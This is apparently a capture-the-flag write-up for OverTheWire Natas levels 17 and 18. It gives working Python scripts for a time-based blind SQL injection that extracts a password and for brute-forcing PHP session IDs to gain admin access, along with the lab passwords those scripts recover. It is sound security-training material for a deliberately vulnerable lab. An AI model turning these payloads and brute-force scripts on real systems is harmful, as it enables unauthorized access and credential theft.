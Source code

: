 **[Natas17](http://natas17.natas.labs.overthewire.org)**  
It's same Natas15 and Natas16 but nothing echo for us,
We can brute force password by using Time-based attack
```python
import requests
import string

url = 'http://natas17.natas.labs.overthewire.org/'
auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')

characters = string.ascii_letters + '0123456789'
filter = ''
for char in characters:
    myobj = {'username': 'natas18" and password like binary "%' + char + '%" and sleep(1) #'}
    x = requests.post(url, data = myobj, auth=auth)
    if (x.elapsed.seconds >= 1):
        filter = filter + char
print(filter)

password = ''
for i in range(32):
    for char in filter:
        myobj = {'username': 'natas18" and password like binary "' + password + char + '%" and sleep(1) #'}
        x = requests.post(url, data = myobj, auth=auth)
        if (x.elapsed.seconds >= 1):
            password = password + char
            print(password)
            break
```
```
username: natas18
password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP 
```

**[Natas18](http://natas18.natas.labs.overthewire.org)**  
View source code, there are some functions, we will get the flag if the session admin is 1. Let see how we can effect session admin.  
<i>print_credentials</i> function just print information, less care about that.  
<i>isValidAdminLogin</i> function is less care too, because it always returns 0.  
So we check my_session_start function, createID, and isValidID. We see it create a session with id between 0 and 640.
```php
$maxid = 640; // 640 should be enough for everyone
```
So there is some cookie value that make
```php
$_SESSION["admin"] = 1;
```
Brute force it
```python
import requests
import string

url = 'http://natas18.natas.labs.overthewire.org/'
auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
for i in range(640):
    cookies = {'PHPSESSID': str(i)}
    x = requests.post(url, auth=(auth), cookies=cookies)
    print(i)
    if ('You are an admin.' in x.text):
        print(x.text)
        break
```
```
username: natas19
```